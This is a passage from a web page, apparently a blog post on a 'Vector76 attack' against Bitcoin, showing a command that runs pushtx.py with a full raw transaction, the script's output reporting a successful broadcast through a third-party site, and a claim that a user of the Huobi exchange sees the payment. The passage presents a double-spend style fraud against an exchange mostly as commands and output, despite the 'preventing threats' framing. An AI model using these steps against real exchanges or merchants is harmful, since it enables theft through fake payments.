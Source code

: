

<hr class="wp-block-separator has-alpha-channel-opacity"/>



<figure class="wp-block-image"><a href="https://youtu.be/qjcFNV90p8I"><img src="https://github.com/demining/Vector76-Attack/raw/main/Vector76%20Attack%20Researching%20and%20Preventing%20Threats%20to%20the%20Bitcoin%20Network%20Detailed%20Cryptanalysis%20Based%20on%20Real%20Data%20-%20CRYPTO%20DEEP%20TECH_files/image-4(1).png" alt="Vector76 Attack: Researching and Preventing Threats to the Bitcoin Network Detailed Cryptanalysis Based on Real Data"/></a></figure>



<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://youtube.com/watch?v=qjcFNV90p8I%3Fsi%3DjlnG-yg3Od3XH2bX
</div></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>Now let’s use the&nbsp;<em><strong>Python</strong></em>&nbsp;script:&nbsp;<a href="https://github.com/smartibase/Broadcast-Bitcoin-Transaction/blob/main/pushtx.py"><strong>pushtx.py</strong></a>&nbsp;to send&nbsp;<strong>Bitcoin Transaction RawTX</strong></p>



<pre class="wp-block-code"><code><strong>!python3 pushtx.py</strong>

<strong>010000000161e8e6fbe03bb2ea5508067c270ff878bccccefa37e80d1a5b5eac321abd4131000000006b483045022100dff55be52be07900dd4d2d04473c93249ca78e37955e466437c26f06322f01bc02205ed04a2a4201e8c2b3035de7edfa972e1f7da57dbcca3eaa4fbd4db4cd8ad507012102650afad13f8fb85925ba6765dc5416bad623cdfce3f104191964253a12ed0cddffffffff01d0000107000000001976a914216a0d339ab6ddc696b1b239b9b65810c0bf73d588ac00000000</strong>
</code></pre>



<figure class="wp-block-image"><a href="https://github.com/demining/Vector76-Attack/blob/main/Vector76%20Attack%20Researching%20and%20Preventing%20Threats%20to%20the%20Bitcoin%20Network%20Detailed%20Cryptanalysis%20Based%20on%20Real%20Data%20-%20CRYPTO%20DEEP%20TECH_files/image-24-1024x251.png" target="_blank" rel="noreferrer noopener"><img src="https://github.com/demining/Vector76-Attack/raw/main/Vector76%20Attack%20Researching%20and%20Preventing%20Threats%20to%20the%20Bitcoin%20Network%20Detailed%20Cryptanalysis%20Based%20on%20Real%20Data%20-%20CRYPTO%20DEEP%20TECH_files/image-24-1024x251.png" alt="Vector76 Attack: Researching and Preventing Threats to the Bitcoin Network Detailed Cryptanalysis Based on Real Data"/></a></figure>



<h4 class="wp-block-heading">Result:</h4>



<p><a href="https://github.com/demining/Vector76-Attack/blob/main/README.md#result-1"></a></p>



<pre class="wp-block-code"><code><strong>Enter your raw transaction: 010000000161e8e6fbe03bb2ea5508067c270ff878bccccefa37e80d1a5b5eac321abd4131000000006b483045022100dff55be52be07900dd4d2d04473c93249ca78e37955e466437c26f06322f01bc02205ed04a2a4201e8c2b3035de7edfa972e1f7da57dbcca3eaa4fbd4db4cd8ad507012102650afad13f8fb85925ba6765dc5416bad623cdfce3f104191964253a12ed0cddffffffff01d0000107000000001976a914216a0d339ab6ddc696b1b239b9b65810c0bf73d588ac00000000
TX: e129cd4257b2c9f5061dfb80d8b7a59e62cbaf3cdfba8d3fde2953759e63bcf0
Transaction successfully broadcasted!
Broadcasting Transactions into the Bitcoin Network: https://broad-casts.ru/bitcoin-network</strong></code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>A pseudo-recipient user of the&nbsp;&nbsp;<strong>Huobi</strong>&nbsp;crypto exchange sees a payment on the Bitcoin&nbsp;<strong>TX network: e129cd4257b2c9f5061dfb80d8b7a59e62cbaf3cdfba8d3fde2953759e63bcf0</strong></p>
